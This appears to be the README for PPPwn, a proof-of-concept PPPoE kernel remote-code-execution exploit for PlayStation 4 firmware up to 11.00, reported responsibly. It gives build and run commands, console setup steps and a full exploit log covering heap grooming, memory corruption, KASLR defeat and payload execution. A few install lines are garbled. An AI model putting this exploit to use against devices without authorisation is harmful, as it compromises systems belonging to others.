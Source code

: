 # PPPwn - PlayStation 4 PPPoE RCE
PPPwn is a kernel remote code execution exploit for PlayStation 4 up to FW 11.00. This is a proof-of-concept exploit for [CVE-2006-4304](https://hackerone.com/reports/2177925) that was reported responsibly to PlayStation.

Supported versions are:
- FW 7.50 / 7.51 / 7.55
- FW 8.00 / 8.01 / 8.03
- FW 8.50 / 8.52
- FW 9.00
- FW 9.03 / 9.04
- FW 9.50 / 9.51 / 9.60
- FW 10.00 / 10.01
- FW 10.50 / 10.70 / 10.71
- FW 11.00
- more can be added (PRs are welcome)

The exploit only prints `PPPwned` on your PS4 as a proof-of-concept. In order to launch Mira or similar homebrew enablers, the `stage2.bin` payload needs to be adapted.

## Requirements
- A computer with an Ethernet port
  - USB adapter also works
- Ethernet cable
- Linux
  - You can use VirtualBox to create a Linux VM with `Bridged Adapter` as network adapter to use the ethernet port in the VM.
- Python3 and gcc installed

## Usage

On your computer, clone the repository:

```sh
git clone --recursive https://github.com/TheOfficialFloW/PPPwn
```

Change the directory to the cloned repository:

```sh
cd PPPwn
```

Install the requirements:

```sh
sudo pip install -r requirements.txt
```
sudo apt-get install python3-full
sudo apt-get install pipx xyz

Compile the payloads:


```sh
make -C stage1 FW=1100 clean && make -C stage1 FW=1100
make -C stage2 FW=1100 clean && make -C stage2 FW=1100
```

For other firmwares, e.g. FW 9.00, pass `FW=900`.

DO NOT RUN the exploit just yet (don't press Enter yet) but prepare this command on your prompt (see `ifconfig` for the correct interface):

```sh
sudo python3 pppwn.py --interface=enp0s3 --fw=1100
```

For other firmwares, e.g. FW 9.00, pass `--fw=900`.

On your PS4:

- Go to `Settings` and then `Network`
- Select `Set Up Internet connection` and choose `Use a LAN Cable`
- Choose `Custom` setup and choose `PPPoE` for `IP Address Settings`
- Enter anything for `PPPoE User ID` and `PPPoE Password`
- Choose `Automatic` for `DNS Settings` and `MTU Settings`
- Choose `Do Not Use` for `Proxy Server`

- Now, simultaneously press the 'X' button on your controller on `Test Internet Connection` and 'Enter' on your keyboard (on the computer you have your Python script ready to run).

ALWAYS wait for you console to show the message "Cannot connect to network: (NW-31274-7)" before trying this PPOE injection again.

If the exploit fails or the PS4 crashes, you can skip the internet setup and simply click on `Test Internet Connection`. Kill the `pppwn.py` script and run it again on your computer, and then click on `Test Internet Connection` on your PS4: always simultaneously.


If the exploit works, you should see an output similar to below, and you should see `Cannot connect to network.` followed by `PPPwned` printed on your PS4, or the other way around. 

### Example run

```sh
[+] PPPwn - PlayStation 4 PPPoE RCE by theflow
[+] args: interface=enp0s3 fw=1100 stage1=stage1/stage1.bin stage2=stage2/stage2.bin

[+] STAGE 0: Initialization
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 07:ba:be:34:d6:ab
[+] AC cookie length: 0x4e0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[*] Waiting for interface to be ready...
[+] Target IPv6: fe80::2d9:d1ff:febc:83e4
[+] Heap grooming...done

[+] STAGE 1: Memory corruption
[+] Pinning to CPU 0...done
[*] Sending malicious LCP configure request...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[+] Scanning for corrupted object...found fe80::0fdf:4141:4141:4141

[+] STAGE 2: KASLR defeat
[*] Defeating KASLR...
[+] pppoe_softc_list: 0xffffffff884de578
[+] kaslr_offset: 0x3ffc000

[+] STAGE 3: Remote code execution
[*] Sending LCP terminate request...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 97:df:ea:86:ff:ff
[+] AC cookie length: 0x511
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Triggering code execution...
[*] Waiting for stage1 to resume...
[*] Sending PADT...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634be9200
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] AC cookie length: 0x0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...

[+] STAGE 4: Arbitrary payload execution
[*] Sending stage2 payload...
[+] Done!
```

## Notes for Mac Apple Silicon Users (arm64 / aarch64)
The code will not compile on Apple Silicon and requires AMD64 architecture.
There is a workaround using docker which will build the bin files required.
Clone this repository to your mac system, then from the repo folder run `./build-macarm.sh`. This will build the binaries for PS4 FW 1100 and place the necessary files into the correct folders. To build the binaries for a different version, i.e. 900, run the command as such: `./build-macarm.sh 900`. Once built, copy this folder structure into the Linux VM and execute as instructed above.
This has been tested using VMware Fusion 13.5.1, with the VM Guest as Ubuntu 24.04, and the host machine is MacOS 14.4.1
